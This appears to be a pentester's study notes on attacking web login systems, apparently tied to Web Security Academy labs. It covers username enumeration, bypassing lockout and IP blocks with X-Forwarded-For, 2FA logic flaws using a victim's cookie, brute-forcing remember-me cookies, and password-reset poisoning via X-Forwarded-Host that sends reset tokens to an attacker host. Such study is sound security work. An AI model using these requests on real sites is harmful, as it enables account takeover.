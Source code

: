 # Authentication

## <mark style="color:yellow;">Usernames enumeration</mark>

**Default username**

```
admin
administrator
firstname.lastname@somecompany.com
```

***

**Regisitration form**&#x20;

Create account and see if there's error like "account already exists".

***

**Comparing responses**

Use a valid user and an invalid user (and incorrect password). One character out of place makes the messages distinct, even if not visible on the page.

{% hint style="success" %}
**Tip**: Use "Grep - match" in Burp Intruder to fetch the error message
{% endhint %}

***

**Account locking**

Try 3/5 login. If the account is locked, it could mean that there is.

***

**Response times**

A website may only check the password if the username is valid. So, entering an excessively long password causes a noticeable delay.

## <mark style="color:yellow;">Passwords</mark>

[password-cracking.md](../../iv-miscellaneous/password-cracking.md "mention")

## <mark style="color:yellow;">Account locking</mark>

**Guess password with locked account**&#x20;

With your account locked, send a request with an incorrect password and another with a correct password. Is the response different?

***

**IP blocked bypass**

* The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)&#x20;
* Try to bypass by adding `X-Forwarded-For` header

***

**With password change**

See if you can change the password of an arbitrary user. E.g: look for a hidden username paramer (control it).  Brute-force password when you enter your current password.

{% hint style="success" %}
**Tip**: use your account and notice different behavior.

* current password: wrong, new-password-1=XXX, new-password-2=XXX
* current password: wrong, new-password-1=XXX, new-password-2=YYY
* current password: \<right>, new-password-1=XXX, new-password-2=XXX
* current password: \<right>, new-password-1=XXX, new-password-2=YYY
{% endhint %}

## <mark style="color:yellow;">2FA</mark> <a href="#bypassing-two-factor-authentication" id="bypassing-two-factor-authentication"></a>

* **Brute-force OTP**
* **Bypassing two-factor authentication**&#x20;

Check if you can directly skip to "logged-in" pages.

* **Flawed logic**

<pre class="language-http"><code class="lang-http"><strong># 1 step - (REQUEST) Normal login with attacker account
</strong>POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
[...]

username=attacker&#x26;password=qwerty
</code></pre>

```http
# 1 step - (RESPONSE) The server sets cookie
HTTP/1.1 200 OK
Set-Cookie: account=attacker
```

```http
# 2 step - request two-factor
GET /login-steps/second HTTP/1.1
Cookie: account=attacker
```

```http
# 3 step - submit the two-factor code with victim cookie
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
[...]

verification-code=123456
```

## <mark style="color:yellow;">Remember me option</mark>

* **Study your cookie and deduce how it is generated -** Sometimes this cookie is hashed or encoded (e.g. base64)
* **Brute-force other users' cookies to gain access to their accounts**

## <mark style="color:yellow;">Password reset</mark>

**Control username parameter**

After you receive an email with the URL to reset your password, see if you can control username parameter.

```http
POST /forgot-pwd?temp-token=xxx HTTP/2
[...]

user=<victim>&new-pwd-1=<whatever>&new-pwd-2=<whatever>&token=xxx
```

***

**Resetting passwords using a URL (static token)**

Poor implementation can use guessable parameter: E.g.: `http://vulnerable-website.com/reset-password?user=victim-user`

***

**Steal another user's token (for dynamic token)**

Add the `X-Forwarded-Host` header and see if it allows you to control the link generated by the app. This way, you can insert your website's URL so that when the user clicks on the link, they are directed to `http://your.website.com/reset-password?token=impredictabletoken`.

```http
POST /forgot-password HTTP/2
Host: 0ad400fb039bb5ea816cac4d00be00a8.web-security-academy.net
X-Forwarded-Host: your.website.com

username=lebron
```
